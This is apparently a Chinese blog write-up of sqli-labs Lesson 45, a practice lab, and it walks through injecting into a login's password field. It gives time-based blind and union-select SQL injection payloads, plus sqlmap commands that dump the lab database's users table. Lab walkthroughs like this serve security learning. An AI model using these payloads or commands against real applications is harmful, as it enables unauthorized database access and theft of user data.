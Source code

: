 ```yaml
---
title: sqli-labs lession-45 POST基于错误-字符型-堆叠盲注
date: 2018-10-30 11:59:48
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-45 POST基于错误-字符型-堆叠盲注

---

## 登录界面

![001](/img/sql/Lesson-45/001.png)

## 分析

源代码与Lesson-44只有闭合方式不同。

## 注入

### 判断类型

同样还是在password注入。依旧是盲注。

`') or 1=1 and if(1,sleep(5),null)#`

通过时间函数函数来判断闭合为`')'`

### 判断字段数

`') or 1=2 union select 1,2,3#`

![002](/img/sql/Lesson-45/002.png)

![003](/img/sql/Lesson-45/003.png)

### 判断当前数据库

`') or 1=2 union select 1,database(),3#`

![004](/img/sql/Lesson-45/004.png)

![005](/source/img/sql/Lesson-45/005.png)

接下来的爆数据库的流程都一样,具体可以看Lesson-44.

{% post_link sqli-labs-lession-44-POST基于错误-字符型-堆叠盲注 点击查看Lesson-44 %}

## 堆叠注入

{% post_link sqli-labs-lession-42-POST报错注入-字符型-堆叠注入 点击查看Lesson-42%}

## SQLMAP

`sqlmap -r post/post_45.txt -p login_password --dbms mysql --technique B --method POST --level 3 --risk 3 --flush-session --fresh-queries -v 3`

![006](/img/sql/Lesson-45/006.png)

盲注时间太长了,直接上结果。

`sqlmap -r post/post_45.txt -p login_password --dbms mysql --technique B --method POST --level 3 --risk 3 -D security -T users --columns --dump`

![007](/img/sql/Lesson-45/007.png)

![008](/img/sql/Lesson-45/008.png)




